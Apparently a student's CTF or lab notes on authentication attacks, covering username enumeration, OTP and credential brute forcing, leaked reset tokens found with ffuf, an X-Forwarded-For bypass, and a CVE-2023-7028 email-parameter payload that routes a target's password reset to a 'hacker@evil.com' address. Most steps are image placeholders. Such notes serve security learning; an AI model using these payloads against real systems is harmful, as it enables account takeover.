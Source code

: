 ____

# Weak Passwords

![[Pasted image 20241217114441.png]]

# Default Passwords

Search for "Default credentials" on google

# Username enumeration through errors

Username is invalid

![[Pasted image 20241217120440.png]]
# Username Enumeration Through Forgot Password Function

Invalid username supplied

![[Pasted image 20241217122422.png]]

# Brute Forcing Username and Password

Cluster-bomb

# Self Registration Using Content Discovery

```bash
ffuf -u https://vdooaly3.eu1.ctfio.com/hidden-registration/user_FUZZ -w content.txt
```

![[Pasted image 20241217123723.png]]

## Javascript Files

![[Pasted image 20241217123935.png]]

## APIs

Leaked ``/by-api/api/auth/login/``

![[Pasted image 20241217124748.png]]

# Brute Forcing One-Time Password (OTP)

![[Pasted image 20241217125652.png]]

# Leaked Password Reset Tokens
## 1
![[Pasted image 20241217131421.png]]

```bash
ffuf -u https://vdooaly3.eu1.ctfio.com/reset-token-leak/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![[Pasted image 20241217131733.png]]

![[Pasted image 20241217131757.png]]

![[Pasted image 20241217131922.png]]

## 2

```bash
ffuf -u https://vdooaly3.eu1.ctfio.com/api-token-leak/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![[Pasted image 20241217133540.png]]

# Forced Password Reset

Add email field, 
![[Pasted image 20241217134424.png]]

https://github.com/Vozec/CVE-2023-7028


```
user[email][]=my.target@example.com&user[email][]=hacker@evil.com
```

# Bypassing API Authentication with X-Forwarded-For

![[Pasted image 20241217134850.png]]


```
X-forwarded-for: 127.0.0.1
```

![[Pasted image 20241217135113.png]]
# X-Forwarded-For with Information Disclosure

```bash
curl -I https://mzg7ibfb.eu1.ctfio.com/by-api-xip-2/admin/
```

![[Pasted image 20241217135449.png]]

![[Pasted image 20241217135702.png]]
Brute force, 
![[Pasted image 20241217135826.png]]